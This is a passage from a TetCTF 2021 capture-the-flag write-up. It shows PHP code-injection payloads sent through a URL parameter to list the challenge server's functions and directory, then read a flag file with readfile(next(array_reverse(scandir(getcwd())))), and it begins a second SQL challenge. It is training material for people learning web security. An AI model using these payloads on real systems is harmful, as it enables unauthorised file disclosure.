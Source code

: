 http://192.46.227.32/?roll=var_dump(get_defined_functions())

```

<p align="center">
  <img src="/images/writeups/TetCTF2021/2_functions.png" width="500"/>
</p>

Now, we can use some of the functions to retrieve information from the web directory:
var_dump(scandir(getcwd()))

scandir(__DIR__) == scandir(getcwd())

```
http://192.46.227.32/?roll=var_dump(scandir(getcwd()))
```

<p align="center">
  <img src="/images/writeups/TetCTF2021/2_scandir.png" width="500"/>
</p>

We can see the file which can contain the flag:

``` fl4g_here_but_can_you_get_it_hohoho.php ```

Since we cannot use the \[3\] to retrieve the 3rd position, we have to use [PHP array functions](https://www.php.net/manual/en/ref.array.php) to retrieve one of the positions from the array (the flag filename) and use it with the inbuild function **readfile()** to retrieve the file content. 

Since the file name is on the third position, we can use the function array_reverse() to place the filename at the second position and the use the next() function to advance the array pointer into the second place (the filename):

```
http://192.46.227.32/?roll=readfile(next(array_reverse(scandir(getcwd()))))
```

I tried the next(next()) option but the array is not be defined until we use the array_reverse() function, which returns an array from the scandir(getcwd()) command.


<p align="center">
  <img src="/images/writeups/TetCTF2021/2_flag.png" width="500"/>
</p>


``` TetCTF{lixi_50k_<3_vina_*100*25926415724382#} ```


##  mysqlimit
100

Limit 'Em All! http://45.77.255.164/


This challenge have the following PHP code with a database:

{% highlight php %}
	<!-- The Author of this challenge is so kind and handsome that he is giving you flag, just need to bypass his god-tier waf and grab it <3 -->

	<?php 

	include('dbconnect.php');

```